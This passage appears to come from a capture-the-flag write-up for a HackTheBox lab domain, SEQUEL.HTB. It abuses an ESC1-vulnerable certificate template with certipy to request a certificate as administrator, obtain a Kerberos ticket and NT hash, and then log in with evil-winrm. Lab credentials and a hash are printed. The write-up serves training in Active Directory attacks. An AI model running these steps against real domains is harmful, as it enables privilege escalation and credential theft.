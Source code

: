 ```bash
                                          SEQUEL.HTB\Administrator
        Write Dacl Principals           : SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
                                          SEQUEL.HTB\Administrator
        Write Property Principals       : SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
                                          SEQUEL.HTB\Administrator
    [!] Vulnerabilities
      ESC1                              : 'SEQUEL.HTB\\Domain Users' can enroll, enrollee supplies subject and template allows client authentication
```
{% endcode %}

### Certificate Signing Request

We can now use `certipy` to request the certificate for the user `administrator` now.

{% code overflow="wrap" %}
```bash
$certipy req -u ryan.cooper@sequel.htb -p NuclearMosquito3 -upn administrator@sequel.htb -target sequel.htb -ca sequel-dc-ca -template UserAuthentication 
Certipy v4.4.0 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 11
[*] Got certificate with UPN 'administrator@sequel.htb'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx'
```
{% endcode %}

### Authentication

We can request the TGT ticket for the user `administrator` using certificate now.

{% code overflow="wrap" %}
```bash
$ sudo ntpdate -u escape
$ certipy auth -pfx administrator.pfx 
Certipy v4.4.0 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@sequel.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@sequel.htb': aad3b435b51404eeaad3b435b51404ee:a52f78e4c751e5f5e17e1e9f3e58f4ee
```
{% endcode %}

And, we can login to the target using `evil-winrm` now.
